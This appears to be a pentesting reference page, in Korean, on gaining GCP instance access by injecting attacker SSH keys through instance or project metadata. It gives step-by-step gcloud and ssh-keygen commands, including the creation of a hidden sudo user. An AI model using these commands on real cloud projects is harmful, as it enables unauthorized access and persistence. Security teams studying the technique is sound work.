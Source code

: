 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{{#include ../../../../banners/hacktricks-training.md}}

### 메타데이터 수정 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

인스턴스에서 메타데이터 수정을 하면 **공격자가 필요한 권한을 얻을 경우 심각한 보안 위험이 발생할 수 있습니다**.

#### **커스텀 메타데이터에 SSH 키 통합**

GCP에서 **리눅스 시스템**은 종종 [Google Compute Engine용 Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)에서 스크립트를 실행합니다. 이의 중요한 구성 요소는 **정기적으로** 인스턴스 메타데이터 엔드포인트를 확인하여 **허가된 SSH 공개 키의 업데이트**를 확인하도록 설계된 [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)입니다.

따라서 공격자가 커스텀 메타데이터를 수정할 수 있다면, 그는 데몬이 새로운 공개 키를 찾도록 만들 수 있으며, 이는 처리되어 **로컬 시스템에 통합됩니다**. 키는 **기존 사용자**의 `~/.ssh/authorized_keys` 파일에 추가되거나, 키의 형식에 따라 `sudo` 권한이 있는 새로운 사용자를 생성할 수 있습니다. 그리고 공격자는 호스트를 손상시킬 수 있습니다.

#### **기존 권한 있는 사용자에게 SSH 키 추가**

1. **인스턴스의 기존 SSH 키 검사:**

- 인스턴스와 그 메타데이터를 설명하는 명령을 실행하여 기존 SSH 키를 찾습니다. 출력의 관련 섹션은 `metadata` 아래, 특히 `ssh-keys` 키에 있습니다.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- SSH 키의 형식에 주의하십시오: 사용자 이름은 키 앞에 위치하며, 콜론으로 구분됩니다.

2. **SSH 키 메타데이터를 위한 텍스트 파일 준비:**
- 사용자 이름과 해당 SSH 키의 세부 정보를 `meta.txt`라는 텍스트 파일에 저장합니다. 이는 기존 키를 보존하면서 새로운 키를 추가하는 데 필수적입니다.
3. **대상 사용자(`alice` 예시)에 대한 새로운 SSH 키 생성:**

- `ssh-keygen` 명령을 사용하여 새로운 SSH 키를 생성하며, 주석 필드(`-C`)가 대상 사용자 이름과 일치하도록 합니다.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- 새로운 공개 키를 `meta.txt`에 추가하며, 인스턴스의 메타데이터에서 발견된 형식을 모방합니다.

4. **인스턴스의 SSH 키 메타데이터 업데이트:**

- `gcloud compute instances add-metadata` 명령을 사용하여 인스턴스에 업데이트된 SSH 키 메타데이터를 적용합니다.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **새로운 SSH 키를 사용하여 인스턴스에 접근:**

- 새로운 키를 사용하여 SSH로 인스턴스에 연결하고, 대상 사용자(`alice` 예시)의 컨텍스트에서 셸에 접근합니다.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **새로운 권한 있는 사용자 생성 및 SSH 키 추가**

흥미로운 사용자가 발견되지 않으면, `sudo` 권한이 부여된 새로운 사용자를 생성할 수 있습니다:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### 프로젝트 수준의 SSH 키 <a href="#sshing-around" id="sshing-around"></a>

**프로젝트 수준에서 SSH 키를 적용**하여 클라우드 환경의 여러 가상 머신(VM)에 대한 SSH 액세스를 확장할 수 있습니다. 이 접근 방식은 프로젝트 내에서 명시적으로 프로젝트 전체 SSH 키를 차단하지 않은 모든 인스턴스에 SSH 액세스를 허용합니다. 요약 가이드는 다음과 같습니다:

1. **프로젝트 수준에서 SSH 키 적용:**

- `gcloud compute project-info add-metadata` 명령을 사용하여 `meta.txt`의 SSH 키를 프로젝트의 메타데이터에 추가합니다. 이 작업은 VM이 "프로젝트 전체 SSH 키 차단" 옵션을 활성화하지 않는 한, SSH 키가 프로젝트의 모든 VM에서 인식되도록 보장합니다.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **프로젝트 전체 키를 사용하여 인스턴스에 SSH 접속:**
- 프로젝트 전체 SSH 키가 설정되면 프로젝트 내의 모든 인스턴스에 SSH 접속할 수 있습니다. 프로젝트 전체 키를 차단하지 않는 인스턴스는 SSH 키를 수락하여 액세스를 허용합니다.
- 인스턴스에 SSH 접속하는 직접적인 방법은 `gcloud compute ssh [INSTANCE]` 명령을 사용하는 것입니다. 이 명령은 현재 사용자 이름과 프로젝트 수준에서 설정된 SSH 키를 사용하여 액세스를 시도합니다.

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
